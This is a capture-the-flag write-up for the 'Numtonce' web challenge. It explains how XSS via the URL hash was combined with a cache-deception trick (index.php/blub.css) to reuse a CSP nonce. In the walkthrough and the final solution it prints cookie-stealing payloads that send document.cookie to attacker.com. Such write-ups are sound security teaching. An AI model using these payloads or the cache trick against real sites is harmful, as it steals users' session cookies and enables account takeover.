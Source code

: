 # Numtonce
* Source: https://fluxfingersforfuture.fluxfingers.net/challenges/29
* Challenge by: pspaul
* Writeup by: Alain K. (LetzPwn Team)
* Solves: 7 out of 972 teams

## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index file itself not. 
Force index file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to subit an URL too. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submmit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
(TODO insert screenshot)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analye the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.
As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafa javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

